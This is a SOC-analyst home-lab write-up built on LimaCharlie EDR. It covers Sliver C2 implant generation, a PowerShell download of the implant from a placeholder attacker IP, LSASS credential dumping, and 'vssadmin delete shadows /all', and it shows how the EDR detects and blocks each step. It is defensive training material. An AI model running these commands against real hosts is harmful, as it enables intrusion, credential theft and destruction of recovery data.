 # LimaCharlie Home Lab 

## Payload 

To begin the lab, we start by creating a Sliver-Server C2 implant using an Ubuntu server. We can generate the C2 session payload for later use on the Windows host by using the "generate --http [Linux_VM_IP]" command.
After executing the command, the payload is successfully generated. 
To proceed with the attack, it is crucial to set up a temporary web server using Ubuntu.


![Implant](https://imgur.com/ZUlmbbI.png)



## Command & Control Session 
After generating the payload, the C2 payload can be downloaded to the Windows host using PowerShell with the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile [output_file_name].exe


![Implant](https://imgur.com/1N5e133.png)



After successfully installing the payload, go back to Sliver and start an HTTP listener to initiate a session when executing the C2 implant. This can be done by returning to the host and executing the payload again using the command: C:\Users\User\Downloads\<your_C2-implant>.exe.


![Implant](https://imgur.com/WUbpOXR.png)



Once the command is entered, the HTTP listener will detect the session, allowing the C2 infrastructure to gain control over the compromised Windows system.

![Implant](https://imgur.com/8SEuUcI.png)


## Executing Commands
By uitlizing the session ID, an attacker gains unauthorized access to the Windows host machine. This allows them to execute commands and collect information from the compromised system. The accompanying images demonstrate the execution of commands such as "whoami" and "getprivs" to retrieve specific information. The attacker can also monitor the processes on the machine, indicated by the highlighted payload in green. Additionally, the presence of defensive tools is detected.


![Implant](https://imgur.com/TlBE3yB.png)
![Implant](https://imgur.com/D8pyCEK.png)
![Implant](https://imgur.com/jWUgJ0z.png)





## LimaCharlie EDR

Process Anayalsis: To initiate threat hunting, we will leverage LimaCharlie's EDR telemetry capabilities to detect and locate Indicators of Compromise (IOCs). We begin by examining the processes on the system. If we come across any suspicious processes, we will escalate the situation and proceed with a more in-depth investigation to gather additional information.

![Implant](https://imgur.com/cJI2g0y.png)

Network Anaylsis: By conducting a deeper analysis of the network, we can observe the C2 implant establishing connections through the hosted HTTP server. This generates suspicious HTTP requests, which serve as IOC indicating malicious activity. This discovery confirms that there is ongoing malicious behavior.


![Implant](https://imgur.com/s6yg1nc.png)

File System Analysis: To obtain more information about the malicious file, LimaCharlie's file system tab provides pertinent details about the location and current execution of the implant. This resource will help us gather additional insights into the implant and its activities.


![Implant](https://imgur.com/bTX7Djr.png)


Hash Analysis: In the File System tab, clicking on the suspicious executable enables us to inspect its hash by scanning it with VirusTotal. However, when querying VirusTotal for known malware samples, it was not able to locate any matches for the file. This underscores the importance of recognizing that the absence of a detection on VirusTotal does not necessarily indicate innocence.


![Implant](https://imgur.com/TUox88F.png)


Timeline Analysis: LimaCharlie offers a real-time view of EDR telemetry and event logs streaming from the system. Its filter options provide a convenient way to narrow down the timeline based on the IOC. By identifying the name of the implant, it highlights the associated implant processes discovered. This enables us to examine the events and gather valuable insights to aid in mitigating the threat and enhance our detection rules.


![Implant](https://imgur.com/9Dekpxd.png)

## Credential Dumping

A key objective of threat actors is to acquire the credentials of their target, which can help them achieve their goals, such as lateral movement. One technique that facilitates this objective is known as LSASS credential dumping. LSASS (Local Security Authority Subsystem Service) stores operating system credentials and domain administrator credentials in its process memory.


![Implant](https://imgur.com/sxc279T.png)



To mitigate this risk, we will create a detection rule in LimaCharlie to receive alerts when the LSASS process is accessed. To begin, we will identify the relevant events by filtering for "SENSITIVE_PROCESS_ACCESS" events in the timeline. Once we have identified an LSASS process, we will click on the event to create the detection and response rule. In this rule, we will configure it to generate a report whenever the LSASS command is detected.

![Implant](https://imgur.com/1oJbSxh.png)
![Implant](https://imgur.com/yD6FZWK.png)



Now, when we execute the LSASS dump command again, it will generate a report on the detection page indicating that the LSASS process has been accessed. This report will enable further investigation to determine whether it's a false positive or a true positive.


![Implant](https://imgur.com/vnVpEjS.png)



## Blocking Attacks

A common indicator of a ransomware attack is the deletion of volume shadow copies, which are used to restore individual files or an entire file system. Threat actors frequently remove these volume shadow copies to prevent easy recovery of the encrypted data.

To initiate the attack, we will gain access to the compromised system shell through the C2 session. Once inside the shell, we will execute the command "vssadmin delete shadows /all" to delete the shadow copies. We will then use the "whoami" command to verify that we have an active system shell.


![Implant](https://imgur.com/iRM8C2S.png)
![Implant](https://imgur.com/FCGbAvC.png)


In LimaCharlie's detection tab, it detects the deletion of shadow volumes. From there, we can click on the detection event and access the event timeline for further examination. This allows us to carefully analyze the event and create a detection and response rule based on the information gathered.


![Implant](https://imgur.com/aVB0uX2.png)
![Implant](https://imgur.com/S8ZKPtt.png)


The crafted rule generates a report whenever the VSS deletion command is executed and subsequently terminates the parent process responsible for that command. This effectively prevents the threat actor from performing lateral movement. The accompanying images demonstrate the inability to retrieve any output from the "whoami" command due to the termination of the parent process.


![Implant](https://imgur.com/GqwKm3U.png)
![Implant](https://imgur.com/TOshiKq.png)


## Conclusion 

In this LimaCharlie homelab, we have delved into the intricate details of a cyber attack scenario and explored the capabilities of LimaCharlie's platform in detecting, analyzing, and responding to various stages of the attack. By examining each step, we have gained a deeper understanding of the tactics and techniques employed by threat actors, as well as the countermeasures that can be implemented to mitigate the risks.

The lab began with the creation of a Sliver-Server C2 implant, which served as the initial payload for compromising a Windows host. We learned how to generate the payload and set up a temporary web server to deliver it to the target system. The subsequent establishment of the command and control session allowed the attacker to gain control over the compromised Windows system. Through this session, commands could be executed, and valuable information could be extracted from the compromised system.

LimaCharlie's EDR capabilities played a crucial role in the lab, enabling us to detect and analyze indicators of compromise. We explored process analysis, network analysis, file system analysis, hash analysis, and timeline analysis to gather valuable insights into the attacker's activities. By leveraging LimaCharlie's telemetry data, we were able to identify suspicious processes, detect C2 communications, examine file-related activities, and even scan files with VirusTotal for known malware samples. The real-time event timeline provided by LimaCharlie facilitated a comprehensive view of the attack's progression, allowing for effective threat hunting and rule creation.

One of the significant risks we focused on was credential dumping, a technique commonly used by threat actors to acquire sensitive information. We explored the detection and response capabilities of LimaCharlie in identifying access to the Local Security Authority Subsystem Service (LSASS), where critical credentials are stored. By creating a detection rule, we received alerts whenever the LSASS process was accessed, enabling us to investigate potential unauthorized access attempts.

The lab also addressed the need to block attacks, particularly those involving the deletion of volume shadow copies, a common tactic used by ransomware attackers to hinder data recovery. By executing the attack and leveraging LimaCharlie's detection capabilities, we were able to identify the deletion of shadow volumes and respond proactively by terminating the parent process responsible for the attack. This action effectively prevented further lateral movement and restricted the attacker's ability to cause more damage.

Overall, the LimaCharlie homelab has provided valuable hands-on experience in understanding the intricacies of a cyber attack and the role of an advanced EDR platform in detecting, analyzing, and responding to various stages of the attack lifecycle. By harnessing the power of LimaCharlie's features, such as real-time telemetry, event analysis, and detection and response rules, organizations can bolster their security posture, improve threat detection capabilities, and enhance incident response efforts. It is through such practical exercises that we can better prepare ourselves to defend against ever-evolving cyber threats in today's digital landscape.



## Credit
Inspired by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf)


Educational use only.



































